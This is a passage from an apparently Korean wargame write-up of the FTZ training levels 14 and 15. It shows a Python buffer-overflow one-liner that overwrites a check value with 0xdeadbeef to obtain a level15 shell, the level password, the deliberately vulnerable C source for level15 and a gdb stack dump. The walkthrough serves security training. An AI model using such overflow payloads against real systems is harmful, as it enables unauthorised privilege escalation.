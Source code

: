 ```sh
[level14@ftz level14]$ (python -c 'print "A"*40+"\xef\xbe\xad\xde"';cat)|/home/level14/attackme
whoami
level15
my-pass

Level15 Password is "guess what".
```

짠



## [+] FTZ level15

### Analysis

```c
#include <stdio.h>
 
main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}  
```

힌트를 살펴보면 위와 level14 와 별로 다를게 없다. 다른게 있다면 `check` 변수가 정수 자료형이 아닌 포인터 형이라는 것이다. 

level14와 마찬가지로 dummy 의 크기를 계산하여 스택이 어떻게 구성되어 있는지 확인한다.

```sh
[level15@ftz tmp]$ ./dummy 
AAAA
buf : bffff1a0
check : bffff1c8 # 40 byte 
crap : bffff1cc # 4byte
```

```sh
[level15@ftz tmp]$ gdb -q attackme 
(gdb) b *main+32
Breakpoint 1 at 0x80484b0
(gdb) r 
Starting program: /home/level15/tmp/attackme 
AAAA

Breakpoint 1, 0x080484b0 in main ()
(gdb) x/32x $esp
0xbfffee20:	0x41414141	0x4213000a	0xbfffee48	0x08048471
0xbfffee30:	0x08049560	0x08049668	0x4001582c	0x080483be
0xbfffee40:	0x08048308	0x42130a14	0xbfffee58	0x0804831e
0xbfffee50:	0x4200af84	0x42130a14	0xbfffee78	0x42015574	; ret
```
